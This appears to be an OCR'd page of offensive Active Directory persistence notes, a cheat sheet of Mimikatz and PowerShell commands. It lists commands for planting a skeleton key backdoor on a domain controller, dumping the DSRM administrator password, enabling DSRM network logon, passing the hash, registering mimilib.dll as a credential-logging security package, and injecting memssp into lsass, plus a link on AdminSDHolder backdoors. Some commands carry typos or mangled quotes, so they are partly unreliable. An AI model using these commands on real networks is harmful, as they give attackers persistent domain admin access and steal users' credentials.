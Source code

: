 #### Create the skeleton key - Requires DA
```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <TARGET>
```

### Authenticate as any user with password ```mimikatz```

## DSRM
#### Dump DSRM password - dumps local users
- look for the local administrator password
```
Invoke-Mimikatz -Command '"token::elevate” “lsadump::sam"' -Computername <TARGET>
```

#### Change login behavior for the local admin on the DC
```
New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD
```

#### Overpass the hash local administrator
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC NAME> /user:Administrator /ntlm:<HASH> /run:powershell.exe"' 
```

#### Use PSremoting with NTLM authentication
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication Negotiate 
```

## Custom SSP - Track logons
#### Mimilib.dll
- Drop mimilib.dll to system32 and add mimilib to HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages
```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
SetItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' Value $packages
```

#### Use mimikatz to inject into lsass
all logons are logged to C:\Windows\System32\kiwissp.log
```
Invoke-Mimikatz -Command '"misc:memssp"'
```

## ACL
### AdminSDHolder
- https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence
